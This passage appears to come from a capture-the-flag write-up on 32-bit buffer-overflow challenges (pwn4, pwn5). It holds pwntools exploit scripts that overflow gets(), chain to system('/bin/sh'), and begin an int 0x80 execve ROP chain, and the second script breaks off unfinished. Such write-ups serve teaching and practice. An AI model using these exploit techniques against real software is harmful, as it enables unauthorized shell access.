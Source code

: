 #### EXPLOIT 
Before calling system we need to somehow get a pointer to "/bin/sh". We have a gets() function that can read to any memory location. So we overwrite the return address of the function with gets() and the argument as any address that has read-write permission like from the bss section or the data section. So we can now the write "/bin/sh" into that address. The return address of read() is right above return address of the function we overwrote. So we can write that stack location with the address of system() and the pointer to "/bin/sh" as argument. The return address of system() will now be a pointer to "/bin/sh".
```python
from pwn import *

junk="a"*32
system=p32(0x08048430)
gets=p32(0x08048410)
shelladdr1=p32(0x0804a030)
shelladdr2=p32(0x804a034)
shell1="/bin/sh" + "\x00"
shell2="/sh" + "\x00"

s=process('./pwn4')
s.recv(50)
gdb.attach(s,'b*0x08048782')
s.sendline(junk + gets + system + shelladdr1 + shelladdr1)
s.sendline(shell1)
s.send("ls" + "\n")

s.interactive()
```

<hr>
## pwn5

`32-bit executable, statically linked, not stripped`

pwn5 is also a menu driven program. The vulnerability is a gets() function, but the gets() is in a function 'change_major' which is called when the corresponding option is selected.

debugging in GDB...
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
#### EXPLOIT 
This time there is no system(). The binary is statically linked so we can use the 'int 0x80' instruction to get the shell. to get the shell when executing 'int 0x80' instruction we have to have the reference no. of 'execve' in eax, pointer to '/bin/sh' in ebx and null pointers in ecx and edx. We have to prepare a rop chain to get everything ready before execution of 'int 0x80'.
```python
from pwn import *
junk="a"*32

int80=p32(0x08071005)
pop_eax=p32(0x080bc396)
pop_ebx=p32(0x080481d1)
pop_ecx=p32(0x080e4325)
pop_edx=p32(0x0807338a)
shelladdr1=p32(0x80f0060)
shelladdr2=p32(0x80f0064)
shell1="/bin"
shell2="/sh" + "\x00"
```